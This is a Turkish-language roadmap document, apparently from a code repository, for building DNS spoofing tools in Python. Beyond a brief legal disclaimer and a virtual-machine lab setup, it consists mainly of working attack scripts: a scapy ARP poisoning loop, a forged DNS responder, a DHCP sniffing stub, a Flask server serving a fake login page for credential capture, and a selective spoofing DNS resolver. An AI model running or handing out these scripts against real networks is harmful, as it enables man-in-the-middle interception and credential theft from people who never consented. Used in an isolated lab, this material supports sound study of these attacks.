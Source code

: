 # 🛣️ ROADMAP.md: Python ile DNS Spoofing Özelliklerini Geliştirme ve Test Etme

## 🔰 Giriş

Bu yol haritası, Kali Linux’ta bulunan DNS spoofing araçlarından (Ettercap, Dnsspoof, DNSChef, Bettercap, DDSpoof ve SET) esinlenerek, Python kullanılarak bu özelliklerin nasıl geliştirileceği ve test edileceğine dair detaylı bir rehber sunar.  
⚠️ **Önemli Uyarı:** Bu bilgiler yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımı yasa dışı ve etik dışıdır. Herhangi bir ağda veya sistemde test yapmadan önce açık izin almanız zorunludur.

---

## ⚙️ Ön Koşullar

- **Python 3.x**
- **Kütüphaneler:**
  - `scapy`: Ağ manipülasyonu (→ `pip install scapy`)
  - `dnslib`: DNS sunucusu geliştirme (→ `pip install dnslib`)
  - `flask`: Sahte web sunucusu (→ `pip install flask`)
- **Gerekli Bilgi:**
  - Python temelleri
  - IP, ARP, DNS, DHCP protokolleri
  - Linux terminal kullanımı
- **Araçlar:** VirtualBox veya benzeri sanallaştırma yazılımı

---

## 🧪 Test Ortamını Kurma

1. **VirtualBox kurulumu**
2. **Sanal Makineler:**
   - Saldırgan VM: Kali Linux veya benzeri
   - Kurban VM: Windows / Linux
3. **Ağ yapılandırması:** Host-only ya da internal network kullanın

---

## 🧱 Temel Bileşenlerin Geliştirilmesi

### 🔌 ARP Spoofing Betiği

```python
from scapy.all import *
import time

def get_mac(ip):
    ans, _ = arping(ip)
    for s, r in ans:
        return r[Ether].src

def arp_spoof(target_ip, gateway_ip):
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)
    while True:
        send(ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=gateway_ip), verbose=0)
        send(ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac, psrc=target_ip), verbose=0)
        time.sleep(2)

arp_spoof("192.168.1.10", "192.168.1.1")
```
## DNS Spoofing Betiği
```
from scapy.all import *

def dns_spoof(packet):
    if packet.haslayer(DNSQR) and packet[DNS].qr == 0:
        spoofed_ip = "192.168.1.100"
        spoofed_packet = IP(dst=packet[IP].src, src=packet[IP].dst)/\
                         UDP(dport=packet[UDP].sport, sport=53)/\
                         DNS(id=packet[DNS].id, qr=1, aa=1, qd=packet[DNS].qd,
                             an=DNSRR(name=packet[DNS].qd.qname, ttl=10, rdata=spoofed_ip))
        send(spoofed_packet, verbose=0)

sniff(filter="udp port 53", prn=dns_spoof)
```
##  DHCP Manipülasyon Betiği
```
from scapy.all import *

def dhcp_spoof(packet):
    if packet.haslayer(DHCP) and packet[DHCP].options[0][1] == 1:
        fake_dns = "192.168.1.100"
        # Sahte yanıt oluşturulabilir, örnek yapı:
        # send(dhcp_offer)
        
sniff(filter="udp and (port 67 or 68)", prn=dhcp_spoof)

```
## Sahte Web Sunucusu (Flask) Test amaçlı kullanmak için 
```
pip install flask
python
Kopyala
Düzenle
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('fake_login.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```
## Seçmeli DNS Spoofing (DNS Proxy)

```
from dnslib import *
from dnslib.server import DNSServer, BaseResolver

class SpoofResolver(BaseResolver):
    def resolve(self, request, handler):
        reply = request.reply()
        qname = str(request.q.qname)
        if qname in ['example.com.']:
            reply.add_answer(RR(qname, QTYPE.A, rdata=A('192.168.1.100'), ttl=60))
        return reply

resolver = SpoofResolver()
server = DNSServer(resolver, port=53, address='0.0.0.0')
server.start_thread()

```


